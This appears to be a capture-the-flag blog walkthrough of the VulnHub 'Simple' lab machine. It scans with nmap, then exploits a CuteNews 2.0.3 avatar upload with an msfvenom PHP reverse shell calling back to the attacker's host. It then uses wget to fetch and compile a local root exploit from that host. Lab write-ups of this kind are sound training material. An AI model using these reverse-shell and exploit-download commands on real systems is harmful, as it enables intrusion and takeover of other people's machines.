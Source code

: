 ```yaml
---
layout: post
title: "SecTalks: BNE0x03 - Simple"
date: 2016-04-20 14:49:22 -0400
comments: true
categories:  [vulhub]
---
```


*May the LORD, my rock, be praised, who trains my hands for battle and my fingers for warfare.* ---- Psalm 144:1


From [Vulhub](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/)

Simple CTF is a boot2root that focuses on the basics of web based hacking. Once you load the VM, treat it as a machine you can see on the network, i.e. you don't have physical access to this machine. Therefore, tricks like editing the VM's BIOS or Grub configuration are not allowed. Only remote attacks are permitted. /root/flag.txt is your ultimate goal.

<!--more-->


###Forces:

* netdiscover
* Nmap
* Burp Suite
* Metasploit



###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ---Nmap
* Search the web app vulnerability	--- searchsploit
* Generate and upload webshell	---metasploit
* Get root

###Waging War

####Weaknesses and Strengths

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/simple_ctf1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.172 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.172 -p-`

{% img  /images/blog/vulhub/simple_ctf1/Selection_002.png   [title manually exploit [alt text]] %}

Only port 80 is opening. Lets use Iceweasel to view the page.

{% img  /images/blog/vulhub/simple_ctf1/Selection_003.png   [title manually exploit [alt text]] %}


I noticed that the web app is Cutenews 2.0.3. search the exploit:

`searchsploit cutenews`

find the interesting results:

{% img  /images/blog/vulhub/simple_ctf1/Selection_004.png   [title manually exploit [alt text]] %}

The exploit is as follow:

* Sign up for New User
* Log In 
* Go to Personal options http://www.target.com/cutenews/index.php?mod=main&opt=personal
* Select Upload Avatar Example: Evil.jpg
* use tamper data  & Rename File Evil.jpg to Evil.php

Okay, firstly, I creat a reverse php shell,

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.79.156 LPORT=1234 -a php --platform php -o evil.jpg`

Now, use Burp as proxy, go to Personal options http://192.168.79.172/cutenews/index.php?mod=main&opt=personal to upload evil.jpg

in the burp, change the evil.jgp to evil.php

{% img  /images/blog/vulhub/simple_ctf1/Selection_005.png   [title manually exploit [alt text]] %}


After that, Burp will recevied a GET request:

{% img  /images/blog/vulhub/simple_ctf1/Selection_006.png   [title manually exploit [alt text]] %}

set metasploit multi/handler.

now go to http://192.168.79.172/uploads/avatar_bob1bob2.php will get meterpreter reverse shell:

{% img  /images/blog/vulhub/simple_ctf1/Selection_007.png   [title manually exploit [alt text]] %}


However, I am not the root, search the os version:

{% img  /images/blog/vulhub/simple_ctf1/Selection_008.png   [title manually exploit [alt text]] %}

search the ubuntu 14.04

`searchsploit ubuntu 14.04` and we get the result:

{% img  /images/blog/vulhub/simple_ctf1/Selection_009.png   [title manually exploit [alt text]] %}

Move the file to /var/www/html/ and in reverse shell:

`wget http://192.168.79.156/37292.c -O hack.c`

compile it:

`gcc hack.c -o hack -static`, run it.

then use `python -c 'import pty; pty.spawn("/bin/bash")'` to get the shell.

{% img  /images/blog/vulhub/simple_ctf1/Selection_010.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/simple_ctf1/last.jpg  [title manually exploit [alt text]] %}